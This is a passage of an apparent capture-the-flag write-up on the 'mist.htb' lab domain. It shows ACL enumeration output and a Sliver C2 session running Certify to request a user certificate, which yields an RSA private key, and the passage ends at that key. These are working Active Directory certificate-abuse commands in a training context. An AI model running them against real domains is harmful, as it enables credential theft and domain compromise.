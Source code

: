                                       MIST\Domain Admins            S-1-5-21-1045809509-3006658589-2426055941-512
                                      MIST\Enterprise Admins        S-1-5-21-1045809509-3006658589-2426055941-519
        WriteProperty Principals    : MIST\Administrator            S-1-5-21-1045809509-3006658589-2426055941-500
                                      MIST\Domain Admins            S-1-5-21-1045809509-3006658589-2426055941-512
                                      MIST\Enterprise Admins        S-1-5-21-1045809509-3006658589-2426055941-519
```

- request certificate 
```
sliver (GRATEFUL_PERCH) > certify request '/ca:DC01\mist-DC01-CA' /template:User

[*] certify output:

   _____          _   _  __              
  / ____|        | | (_)/ _|             
 | |     ___ _ __| |_ _| |_ _   _        
 | |    / _ \ '__| __| |  _| | | |      
 | |___|  __/ |  | |_| | | | |_| |       
  \_____\___|_|   \__|_|_|  \__, |   
                             __/ |       
                            |___./        
  v1.1.0                               

[*] Action: Request a Certificates

[*] Current user context    : MIST\Brandon.Keywarp
[*] No subject name specified, using current context as subject.

[*] Template                : User
[*] Subject                 : CN=Brandon.Keywarp, CN=Users, DC=mist, DC=htb

[*] Certificate Authority   : DC01\mist-DC01-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 60

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA5JLKfHU2L9WhOoOYvLk/WN6883I2NDwsgj4oiWhNmLDyse8Q
AwQd/X3mcfHJXh2SujXJFmRKcVxSa4b4DU8JUOupLgfm4dFWuLhK1kmpLM7OS605
P5ZlO+cWKiQw5BnX6ACsWxx8F6WoOeD8bB7oiYYZXnMzfJzn9eVf1E+n2G4sjig0
J2ch/VfpzqHGi7V8WvWC7wpbAgLXRXVkHj50kwJgQX2WZI26PTIKmM4k3FbZ+QOB
60T7gdhQDXCWjqkspEx7/XnVhzoWy6SCcHGqs8XZ6OJSXm3vxCF/zkajV87Re+Ec
rwHm5/29PTlzC0pp9Ti5MaEQZapHevScHoRAuQIDAQABAoIBAFqzfTJB+MymgyIL
ElLhV6fWSzh3e9bige7053UPNKuAm+3LpZjsy1HJ4eYZQgTcy1qk+TSve3LcZcBR
gKEXWeUIfsvLSu0U+sq2Jsw90qn7LpWNGYiID4fjvUHftp7tOmXPzpUhCoT/sW+2
PbRR14iq8+os4KN0R/+lk49WRI52+Z8YRE5hNCtGUi7fXOxf5XGsxyWIUAHaIod3
KBZRSe4zakoHrvIW13q7LVLaiYsLUyFydndluvKroA000vnMJRd0pnMiadoFAFUu
nVIaheUGADdc2znzbHwXnAXVZaH9QVaNrdnm2lyjqoX43OhwmcXD39nXZfAJQVIG
TZInOvkCgYEA65WkS7y33zXTYXmkHgrgtceEpMnn6Z1L1+eYgeacIsrTqQ7wnisx
2cjNUz9Cx+71OMCb0WkUhezZ6Ns+jNeCwp1P3mom13cn1UGlMwSJugxa3liNkfyf
uMzHR5vZKPiDzT7YE/oph7wMOH3sNwsbMenoIrHZxTwILzcVbUA4gy8CgYEA+GGc
Ehbg7Xy9HtpXLjSXkXZrP6fOvC+EYGRS0VmfDIF4cQQbhOU3KdDDDzdJ/ucSnvzu
q240S4ZmRMYPx4nqjfsoL3vO+eyQ3VOXN1ENrnfacU2KI4+h2piTGKmkjMlNiw/m
orBFTTOkHU+yoyvlaEuZTG/CkhpsKBnmtTGHIJcCgYEAwHZ3TBy4RxXtRDQhXR3b
6QZAGnSND7Ee9htR38YsBsyXUQVQlJeLWXYQMJN9FmPlWOEaK2Hij2spt2/uURf7
zszAJF+qrdq94x6HPP/XGPThA8dqmTq+rjY2FA2Bw1QMMZDG7MMyTJ7XiQtvAKUF
KakDqdyMofLiaNhim+ecg6cCgYEAxKrlHR2oc+L1DFzt8tQJv0/4k6qXc0JcmsZV
HRbNbOWHLFWIRK4KA74c9QteN8tXXzP+9xaHqdV9XK9HB0QYyNs5cn+h3xqFifoK
He672o1kFZrD6mxsR93PexO4CxHJqHaqs97GwN5G8D6Ov8yeFPrnIzLK6UyqnwYD
Oy1ARXkCgYBIs/edc1D1QsGjW44aMvNE24mpGHMonhMBPrg57hmyAupOghAB42iA
JZxnJglyYhlFo9O3dhrUMjcBCatFb2sZjhmvPnOGKzh8gdGwAxqGlvaI8RaUEjU0
YzSbZe75+fX04e9gEVRiwMH0kAZ4IH63Nkh+xvtmAlYMION63adsvA==